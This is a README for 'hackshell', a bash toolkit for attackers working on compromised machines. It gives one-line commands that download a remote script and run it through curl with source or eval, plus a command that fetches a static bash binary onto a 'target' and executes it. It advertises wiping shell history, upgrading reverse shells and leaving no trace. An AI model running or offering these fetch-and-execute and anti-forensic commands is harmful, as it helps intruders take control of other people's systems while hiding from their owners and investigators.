 # hackshell
Make BASH stealthy and hacker friendly with lots of bash functions

Usage:
```shell
 source <(curl -SsfL https://thc.org/hs)
```

```shell
 source <(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

```shell
 eval "$(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)"
```

Some features:
*  unsets HISTFILE, SSH_CONNECT, wget/redis/mysql/less-HISTORY, ...
*  Upgrates to PTY shell (if reverse shell)
*  Creates hacker-friendly shortcuts, bash-functions and aliases
*  Static binary download by simple `bin <command>` (e.g. `bin nmap`)
*  Does not write ANY data to the harddrive
*  Leaves no trace
 
![hackshell](https://github.com/user-attachments/assets/fe4e9f4c-d0f6-4886-8f2f-ef7e3f86b406)

It works best with bash. Download BASH if there is no bash on your target:
```shell
URL="https://bin.ajam.dev/$(uname -m)/bash"
[ "$(uname -m)" == i686 ] && URL='https://github.com/polaco1782/linux-static-binaries/raw/refs/heads/master/x86-i686/bash'
curl -obash -SsfL "${URL}" && chmod 700 bash && ./bash --version && exec ./bash -il
```
